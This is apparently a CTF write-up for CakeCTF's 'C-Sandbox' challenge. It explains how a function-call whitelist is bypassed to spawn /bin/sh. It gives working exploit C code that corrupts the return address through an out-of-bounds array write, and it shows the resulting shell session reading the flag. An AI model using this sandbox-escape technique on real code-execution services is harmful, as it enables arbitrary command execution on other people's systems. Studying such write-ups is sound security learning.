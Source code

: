 # C-Sandbox

<span id="-misc"></span><span id="misc" class="tag">misc</span>

## Analysis

This challenge runs a service that accepts C code via TCP and then
compiles and runs it.

There's a whitelist of functions that can be called (`puts`, `printf`,
`scanf`, `exit`). If the code tries to call anything that's not on the
list, the compiler inserts a call to `puts` with a message and a call to
`exit` just before the call to the illegal function.

I edited the `compiler.py` file in order to get the binary generated by
the compiler.

For example, the following C code

    int main(void) {
        system("/bin/sh");
    }

gets compiled to this. You can see the calls to `puts` and `exit` that
weren't on the source code.

    i_gef➤  disas main
    Dump of assembler code for function main:
       0x0000000000401150 <+0>:     push   rbp
       0x0000000000401151 <+1>:     mov    rbp,rsp
       0x0000000000401154 <+4>:     movabs rdi,0x40200c
       0x000000000040115e <+14>:    call   0x401030 <puts@plt>
       0x0000000000401163 <+19>:    mov    edi,0x1
       0x0000000000401168 <+24>:    call   0x401050 <exit@plt>
       0x000000000040116d <+29>:    movabs rdi,0x402004
       0x0000000000401177 <+39>:    mov    al,0x0
       0x0000000000401179 <+41>:    call   0x401040 <system@plt>
       0x000000000040117e <+46>:    xor    eax,eax
       0x0000000000401180 <+48>:    pop    rbp
       0x0000000000401181 <+49>:    ret

## Solution

My idea was to skip the call to `system` (and the injected calls to
`puts` and `exit`) and then corrupt the return address in order to jump
to right after the call to `exit`. The binary was compiled without PIE,
so we know where to return to in advance.

I used a `goto` to skip the call to `system`, but the compiler decided
to optimize it out. To fix this I added a `volatile` variable which gets
used in an `if`.

The pointer `arr` is used to currupt the return address to just after
the `exit` call and just before the `system` call.

    int main(void) {
        int volatile pls_no_optimize = 1;
        int arr[1];

        arr[3] = 0x4011a7;
        arr[4] = 0;
        if (pls_no_optimize)
            goto skip;
        system("/bin/sh");

    skip:
        printf("hi, this is a skip");
    }

    [+] Generating bitcode...
    [+] Instrumenting...
    [+] Translating to assembly...
    [+] Compiling...
    [+] Running...
    ls
    compiler.py
    flag-0de0e34fe4e95ae2fcb8b185c009ba76.txt
    libCSandbox.so
    cat flag-0de0e34fe4e95ae2fcb8b185c009ba76.txt
    CakeCTF{briI1ng_yoO0ur_oO0wn_gaA4dgeE3t!}

And there's the flag: `CakeCTF{briI1ng_yoO0ur_oO0wn_gaA4dgeE3t!}`.
